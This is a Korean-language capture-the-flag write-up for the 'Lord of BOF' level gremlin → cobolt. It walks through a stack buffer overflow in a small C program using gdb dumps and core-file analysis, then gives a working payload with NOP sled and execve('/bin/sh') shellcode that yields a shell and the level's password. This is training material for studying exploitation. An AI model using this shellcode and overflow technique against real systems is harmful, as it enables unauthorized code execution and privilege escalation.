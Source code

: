 # [WriteUp]The Lord of BOF - gremlin → cobolt

:black_nib:ChyKor12(sjjo0225@gmail.com)

---

```bash
[gremlin@localhost gremlin]$ cat cobolt.c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - cobolt
        - small buffer
*/

int main(int argc, char *argv[])
{
    char buffer[16];
    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}
```

`gremlin.c`와 비슷하게 생겼지만 이번에는 버퍼의 크기가 쉘코드를 담을 수 없을 만큼 작다. 그냥 리턴 어드레스보다 높은 주소에 쉘코드를 넣으면 된다.

`main()`에서 `strcpy`가 실행된 직후에 break point를 걸고 메모리의 상태를 살펴보자.

```bash
(gdb) r AAAAAAAA
Starting program: /tmp/cobolt AAAAAAAA

Breakpoint 1, 0x8048465 in main ()
(gdb) x/80wx $esp
0xbffffce0:	0xbffffce8	0xbffffe42	0x41414141	0x41414141
0xbffffcf0:	0x08049400	0x08049500	0xbffffd18	0x400309cb
0xbffffd00:	0x00000002	0xbffffd44	0xbffffd50	0x40013868
0xbffffd10:	0x00000002	0x08048380	0x00000000	0x080483a1
0xbffffd20:	0x08048430	0x00000002	0xbffffd44	0x080482e0
0xbffffd30:	0x080484ac	0x4000ae60	0xbffffd3c	0x40013e90
0xbffffd40:	0x00000002	0xbffffe36	0xbffffe42	0x00000000
0xbffffd50:	0xbffffe4b	0xbffffe6d	0xbffffe77	0xbffffe85
0xbffffd60:	0xbffffea4	0xbffffeb4	0xbffffece	0xbffffeeb
0xbffffd70:	0xbffffeff	0xbfffff0d	0xbfffff50	0xbfffff63
0xbffffd80:	0xbfffff78	0xbfffff88	0xbfffff95	0xbfffffb4
0xbffffd90:	0xbfffffc5	0xbfffffd0	0xbfffffdd	0xbfffffe5
0xbffffda0:	0x00000000	0x00000003	0x08048034	0x00000004
0xbffffdb0:	0x00000020	0x00000005	0x00000006	0x00000006
0xbffffdc0:	0x00001000	0x00000007	0x40000000	0x00000008
0xbffffdd0:	0x00000000	0x00000009	0x08048380	0x0000000b
0xbffffde0:	0x000001f5	0x0000000c	0x000001f5	0x0000000d
0xbffffdf0:	0x000001f5	0x0000000e	0x000001f5	0x00000010
0xbffffe00:	0x0f8bfbff	0x0000000f	0xbffffe31	0x00000000
0xbffffe10:	0x00000000	0x00000000	0x00000000	0x00000000
(gdb) info register ebp
ebp            0xbffffcf8	-1073742600
```

리턴 어드레스의 실제 주소를 확인하기 위해서 BOF를 발생시켜서 `core` 파일을 디버깅해보자.

```bash
[gremlin@localhost /tmp]$ ./cobolt AAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
[gremlin@localhost /tmp]$ gdb -c core
GNU gdb 19991004
Copyright 1998 Free Software Foundation, Inc.
GDB is free software, covered by the GNU General Public License, and you are
welcome to change it and/or distribute copies of it under certain conditions.
Type "show copying" to see the conditions.
There is absolutely no warranty for GDB.  Type "show warranty" for details.
This GDB was configured as "i386-redhat-linux".
Core was generated by `./cobolt AAAAAAAAAAAAAAAAAAAAAAAAAAAA'.
Program terminated with signal 11, Segmentation fault.
#0  0x41414141 in ?? ()
(gdb) x/20wx $esp-0x20
0xbffffcc0:	0x080484dc	0xbffffcc8	0x41414141	0x41414141
0xbffffcd0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffce0:	0x41414141	0xbffffd00	0xbffffd30	0x40013868
0xbffffcf0:	0x00000002	0x08048380	0x00000000	0x080483a1
0xbffffd00:	0x08048430	0x00000002	0xbffffd24	0x080482e0
```

리턴 어드레스는 적당히 `0xbffffd10` 정도로 덮으면 될 것 같다.

payload: dummy(`0x14`byte) + return address(`0xbffffd10`) + NOP sled(`0x1000`byte) + shellcode(`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80`)

```bash
[gremlin@localhost gremlin]$ ./cobolt `python -c 'print "\x90"*0x14+"\x10\xfd\xff\xbf"+"\x90"*0x1000+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"'`
�����������������������������������������������������...

bash$ whoami 
cobolt
bash$ my-pass
euid = 502
hacking exposed
```
